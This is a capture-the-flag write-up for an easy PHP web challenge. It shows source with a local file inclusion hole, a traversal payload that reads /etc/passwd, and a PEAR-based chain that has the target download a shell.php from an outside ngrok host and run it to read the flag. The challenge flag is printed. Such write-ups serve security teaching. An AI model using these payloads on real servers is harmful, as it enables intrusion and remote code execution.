



<font size='10'>php one</font>

24<sup>th</sup> April 2025

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Easy</font>

<br><br>

## Solution

The source code is as follows. We got one `index.php` file.
```php
<?php 

$page = $_GET["page"];

if (isset($page)) {
    include("page/" . $page);
} else {
    echo "Nothing to show you!";
}

?>
```

It's fairly simple, and we can see the vulnerability.

Our input from `$_GET["page"]` is directly beign parsed in the `include()` after appending `page/`.

To get file read on the server, we can do something like following.

```
view-source:http://192.168.100.24/?page=../../../../etc/passwd
```



But looking at the `Dockerfile`, we see that flag is in `/` and its name is randomized so we can't directly read it from this LFI.

To get around this, we can use [LFI to RCE using PEAR CMD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md#lfi-to-rce-via-php-pearcmd). Because PEAR is installed on every docker php image as quoted in the previously mentioned link.

We can make a file `shell.php` as follows.
```php
<?php
echo system("cat /flag*");
?>
```

In order to host the file I used `ngrok`.


And then use the following payload to upload our shell.

```
view-source:http://192.168.100.24/?page=../../../../usr/local/lib/php/pearcmd.php&+install+https://672f-175-107-225-255.ngrok-free.app/shell.php
```

And the following payload to execute it.
```
view-source:http://192.168.100.24/?page=../../../../tmp/pear/download/shell.php
```



### Challenge Flag

flag{1m_ju$t_g3tting_s7art3d}